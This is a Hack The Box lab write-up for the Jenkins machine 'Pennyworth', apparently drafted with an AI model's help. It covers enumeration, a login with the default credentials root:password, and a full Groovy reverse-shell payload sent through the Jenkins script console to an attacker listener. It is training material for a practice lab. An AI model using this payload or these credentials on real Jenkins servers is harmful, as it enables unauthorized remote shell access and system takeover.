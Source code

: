````markdown
# HTB Writeup – Pennyworth 🕵️‍♂️

**Difficulty:** Easy  
**Category:** Jenkins, Java, Reconnaissance, RCE, Default Credentials  
**Date Started:** 2025-06-09  
**Status:** In Progress

---

## 🧪 Initial Enumeration

**Tools Used:**  
- `nmap`

**Command Used:**
```bash
nmap -Pn -sV -T4 <target-ip>
````

**Findings:**

* Port `8080` open – Jenkins interface detected.
* Confirmed version and headers using:

```bash
curl -I http://<target-ip>:8080
```

---

## 🌐 Web Enumeration

* Navigated to `/login` – found default Jenkins login.
* Tried common credentials:

  * ✅ `root:password` – worked.

Checked for exposed endpoints:

* `/script`
* `/manage`
* `/view/all/builds`

---

## 🔍 Vulnerability Discovery

* Discovered Jenkins script console available (`/script`).
* Able to execute **Groovy scripts**.
* Verified RCE capability with:

```groovy
println "test".execute().text
```

---

## 💥 Exploitation (Reverse Shell via Groovy)

### Payload Used:

```groovy
String host = "YOUR_IP"
int port = 8000
String cmd = "/bin/bash"
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new Socket(host, port)
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream()
OutputStream po = p.getOutputStream(), so = s.getOutputStream()

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read())
    while (pe.available() > 0)
        so.write(pe.read())
    while (si.available() > 0)
        po.write(si.read())
    so.flush()
    po.flush()
    Thread.sleep(50)
    try {
        p.exitValue()
        break
    } catch (Exception e) {}
}
p.destroy()
s.close()
```

* Set up listener with:

```bash
nc -lvnp 8000
```

* Reverse shell successful, confirmed with:

```bash
whoami
```

---

## 🔄 Privilege Escalation

* Access level: `root`
* No escalation needed post shell.

---

## 🏁 Flags

* ✅ **User Flag:** Captured
* ✅ **Root Flag:** Captured

---

## 📚 Lessons Learned

* Jenkins often exposes powerful endpoints if misconfigured.
* Groovy script console can lead to RCE if accessible.
* Always test common/default credentials on exposed admin portals.
* Reverse shells require listener to be ready *before* execution.
* Stable shells can be upgraded with:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 📎 References

* [HackTricks – Jenkins Security](https://book.hacktricks.xyz/pentesting-web/jenkins)
* [PayloadAllTheThings – Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```

---

Let me know if you’d like me to turn this into a PDF version, or help you write an index/homepage for your portfolio too!
```
